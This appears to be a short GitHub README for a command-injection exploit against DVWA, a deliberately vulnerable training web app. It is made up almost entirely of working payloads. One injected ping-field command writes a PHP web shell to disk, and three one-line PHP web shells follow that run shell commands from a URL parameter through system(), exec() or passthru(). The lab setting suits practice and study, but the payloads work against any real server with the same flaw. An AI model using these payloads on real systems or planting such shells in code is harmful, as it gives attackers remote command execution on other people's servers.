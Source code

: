 # Command-Injection - DVWA
Exploit Command Injection

> # IP 
> > type anything just for command "PING"

> # PAYLOAD 
> > this PAYLOAD for type and command and execute in cmd or terminal

> # NAME FILE 
> > name file for payload

### ** You can execute directly without creating the payload


> Enter when the Command-Injection

```cmd
1.1.1.1 & echo "<?php passthru($_GET['excute']); ?> " > exp.php
```

| Func other |
| --- |
| `passthru()` | 
| `system()` |
| `exec()` |

# System
```php
<?php system($_GET['excute']); ?> 
```
# Exec
```php
<?php exec($_GET['excute']); ?> 
```
# Passthru
```php
<?php passthru($_GET['excute']); ?> 
```

> You can use this func replaced "passthru" if had any problem
